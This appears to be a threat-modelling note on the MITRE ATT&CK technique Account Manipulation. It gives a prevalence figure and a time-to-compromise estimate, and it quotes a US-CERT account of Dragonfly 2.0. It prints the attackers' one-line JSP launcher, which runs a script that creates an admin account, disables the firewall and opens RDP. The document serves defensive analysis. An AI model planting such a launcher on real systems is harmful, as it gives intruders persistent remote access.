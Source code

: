 # [Account Manipulation](https://attack.mitre.org/techniques/T1098/)

## Context
>Account manipulation may aid adversaries in maintaining access to credentials and certain permission levels within an environment. Manipulation could consist of modifying permissions, modifying credentials, adding or changing permission groups, modifying account settings, or modifying how authentication is performed. These actions could also include account activity designed to subvert security policies, such as performing iterative password updates to subvert password duration policies and preserve the life of compromised credentials. In order to create or manipulate accounts, the adversary must already have sufficient permissions on systems or the domain.

## Findings
In the report [m-trends 2020](https://www.fireeye.com/current-threats/annual-threat-report/mtrends.html) from FireEye, they find that Account Manipulation as an attack step was included in 10.13% of all malware attack lifecycles. 

Cant find any other sources at the moment, so if anyone reading this finds more sources with this probability please add them. 

## Time to compromise
According to [MITRE ATT&CK](https://attack.mitre.org/techniques/T1098/), one of the threat groups that use this technique to maintain elevated access is Dragonfly 2.0. The site [us-cert.gov](https://www.us-cert.gov/ncas/alerts/TA18-074A): 
>"To maintain persistence, the threat actors created local administrator accounts within staging targets and placed malicious files within intended targets."

they did this by doing the following:

>The threat actors used scripts to create local administrator accounts disguised as legitimate backup accounts. The initial script “symantec_help.jsp” contained a one-line reference to a malicious script designed to create the local administrator account and manipulate the firewall for remote access. The script was located in “C:\Program Files (x86)\Symantec\Symantec Endpoint Protection Manager\tomcat\webapps\ROOT\”.

The script that was used to do this, symantec_help.jsp, looks like this: 

```<% Runtime.getRuntime().exec("cmd /C \"" + System.getProperty("user.dir") + "\\..\\webapps\\ROOT\\<enu.cmd>\""); %>```. 

This runs the script enu.cmd, is a bit longer, but according to the source listed, above, it does the following:

>"The script “enu.cmd” created an administrator account, disabled the host-based firewall, and globally opened port 3389 for Remote Desktop Protocol (RDP) access."

Even this script only contains under 40 lines of code, and most of them are just adding some registry entries and configuring some things. Does not seem to me to take very long, and assuming that most other account manipulation procedures will take a similar amount of time, I will assume it to be instant. 

## Result
```Bernoulli(0.101)```

## Discussion
Probably need at least one more source on the prevalence. 